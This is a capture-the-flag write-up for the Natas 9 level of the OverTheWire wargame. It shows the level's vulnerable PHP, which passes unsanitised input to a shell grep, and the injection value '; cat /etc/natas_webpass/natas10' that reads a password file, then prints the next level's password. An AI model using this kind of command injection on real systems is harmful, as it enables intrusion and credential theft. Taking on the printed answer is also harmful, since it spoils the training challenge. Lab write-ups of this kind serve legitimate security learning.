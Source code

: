 # Natas 9

Link : http://natas9.natas.labs.overthewire.org/

Natas 9 screen :

<img src="imgs/natas9.PNG" alt="Natas9 screnn">


Natas 9 source code :


<img src="imgs/url_natas9.png" alt="url Natas9">

Where are going to use this part of the code to get the answer:

```php
if($key != "") {
    passthru("grep -i $key dictionary.txt");
}
```
replacing $key with "; cat /etc/natas_webpass/natas10"

```php
if($key != "") {
    passthru("grep -i ; cat /etc/natas_webpass/natas10 dictionary.txt");
}
```
Then we get  

<img src="imgs/natas9_sol.png" alt="sol natas9">

So the password for Natas 10 is : nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu